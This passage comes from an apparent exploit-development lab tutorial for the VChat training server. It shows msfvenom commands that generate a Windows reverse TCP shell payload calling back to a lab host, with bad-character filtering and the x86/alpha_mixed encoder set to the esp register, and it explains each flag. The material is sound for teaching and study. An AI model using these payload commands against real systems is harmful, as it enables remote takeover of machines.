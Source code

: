 
	https://github.com/DaintyJet/VChat_LTER/assets/60448620/893c3b13-d436-4827-afb3-4802ea867a3e <!-- Replace -->


	1. We can first try generating a payload as we have done before (without an Encoder)

		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command
			* `-p  windows/shell_reverse_tcp`: Specify the payload as the windows reverse tcp shell
			* Set the `LPORT` option to 8080 (or any other valid port)
			* Set the `LHOST` option to the IP of your remote host
		* `-a x86`: Specify the target architecture as `x86`
		* `--platform windows`: Specify the target platform as Windows
		* `-f python`: Format the output for use in a python script
		* `-b ...`: Specify the bad chars.

		<img src="Images/I54.png" width=600>

		* Notice that none of the encoders that *msfvenom* tried automatically worked, we can try again but we can specify which encoder should be used for better results!

	2. Now we can specify an encoder such as [x86/alpha_mixed](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed), and we can use the available options to specify the register pointing to the buffer we will use as the `esp` register!
		<!-- look into REMOVE -a and --platform, others that work seem to not include this?-->
		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -e x86/alpha_mixed bufferregister=esp -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command
		* `-p  windows/shell_reverse_tcp`: Specify the payload as the windows reverse tcp shell